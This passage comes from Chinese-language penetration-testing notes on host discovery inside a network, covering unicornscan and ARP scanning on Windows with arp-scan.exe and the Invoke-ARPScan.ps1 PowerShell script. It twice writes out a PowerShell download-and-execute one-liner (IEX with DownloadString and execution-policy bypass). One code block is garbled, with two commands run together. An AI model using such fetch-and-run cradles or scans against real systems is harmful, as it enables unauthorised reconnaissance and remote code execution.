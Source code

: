     unicornscan在kali中并没有默认自带, 但是我们输入执行的话会自动进行安装
    
    ![image-20221012234938491](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    或者我们也可以到[downloading Unicornscan](https://sourceforge.net/projects/osace/files/latest/download)下载源码编译得到可执行文件, 但是并没有找到windows版本的exe文件或者可以直接执行make得到exe的源码项目
    
4. #### 基于ARP发现主机
    
    ```bash
    arp-scan.exe -t 192.168.30.1/24 powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-ARPScan.ps1');Invoke-ARPScan -CIDR 192.168.92.1/24"
    ```
    
    > arp是一个通过解析网络层地址来找寻数据链路层地址的网络传输协议, 用于五楼层通信。主机发送信息时, 将包含目标地址的arp请求通过广播发送给局域网上的所有主机, 并等待应答接收返回信息, 以此确定目标的物理位置
    > 
    > 1. arp发送方通过广播发送一个arp数据包向局域网全部主机发送数据包, 询问谁是"192.168.30.x"
    > 2. 局域网内的其他主机收到询问后有两种情况:
    >     1. 局域网ip为"192.168.30.x"的主机: 向请求主机发送响应包, 告诉请求主机, "我就是192.168.30.x,我的mac地址是xxxx"
    >     2. 局域网ip不是"192.168.30.x"的主机: 忽略这个请求
    > 3. arp收到响应后将`ip::192.168.30.x => mac::xxxx`这个映射关系存到arp缓存中
    > 
    > 在收到返回的响应后, arp发送主机会将应答主机的mac地址和ip地址存入arp缓存这个映射表中保存一段时间
    
    这里也是没什么默认系统工具，可以通过项目直接下载可执行exe文件[arp-scan-windows-](https://github.com/QbsuranAlang/arp-scan-windows-)或者使用ps脚本[Invoke-ARPScan.ps1](https://raw.githubusercontent.com/sinmygit/git/master/Invoke-ARPScan.ps1)直接使用IEX直接一句话加载远程代码
    
    ![image-20221013002824780](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    
    ​
    
    > 使用powershell脚本的话如果照着下面导入.ps1文件然后逐句执行的话需要先执行以下命令修改系统策略允许加载执行.ps1文件(默认是禁止的)
    > 
    > 注意: 修改权限命令执行的powershell需要使用管理员身份打开, 否则会报错
    > 
    > ```bash
    > set-ExecutionPolicy RemoteSigned
    > ```
    > 
    > 上面是一般用户模式执行ps命令,下面是管理员身份执行
    > 
    > ![image-20221013003530785](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    > 
    > powershell下逐句执行以下命令：
    > 
    > ```bash
    > Import-Module .\Invoke-ARPScan.ps1Invoke-ARPScan -CIDR 192.168.92.1/24
    > ```
    
    ```bash
    powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-ARPScan.ps1');Invoke-ARPScan -CIDR 192.168.92.1/24"
    ```
    